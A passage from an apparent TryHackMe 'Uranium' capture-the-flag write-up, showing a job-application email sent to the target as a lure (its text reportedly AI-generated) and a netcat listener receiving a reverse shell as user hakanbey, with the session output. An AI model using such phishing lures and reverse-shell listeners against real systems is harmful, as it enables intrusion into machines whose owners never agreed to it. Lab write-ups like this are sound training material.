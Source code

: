 ```shell
I am writing to apply for the job at your cryptocurrency company. I am confident that my skills and experience make me an ideal candidate for this position. Please find my attached CV, which outlines my qualifications and accomplishments.

I am excited about the opportunity to work at your company and would welcome the chance to discuss more about how I can help bring success.

Thank you for your time and consideration.

Sincerely,
siunam
Feb 10 16:31:32 earth sendEmail[61642]: Message input complete.
Feb 10 16:31:34 earth sendEmail[61642]: Email was sent successfully!
```

> Fun fact: The body message is generated via AI:
> 
> ![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Uranium-CTF/images/Pasted%20image%2020230210163406.png)

**After that, wait for a while and you should get a reverse shell:**
```
┌[siunam♥earth]-(~/ctf/thm/ctf/Uranium-CTF)-[2023.02.10|16:22:00(HKT)]
└> sudo nc -lnvp 443
listening on [any] 443 ...
connect to [10.8.70.81] from (UNKNOWN) [10.10.180.31] 39422
bash: cannot set terminal process group (1707): Inappropriate ioctl for device
bash: no job control in this shell
hakanbey@uranium:~$ whoami;hostname;id;ip a
whoami;hostname;id;ip a
hakanbey
uranium
uid=1000(hakanbey) gid=1000(hakanbey) groups=1000(hakanbey)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:be:8f:48:ed:61 brd ff:ff:ff:ff:ff:ff
```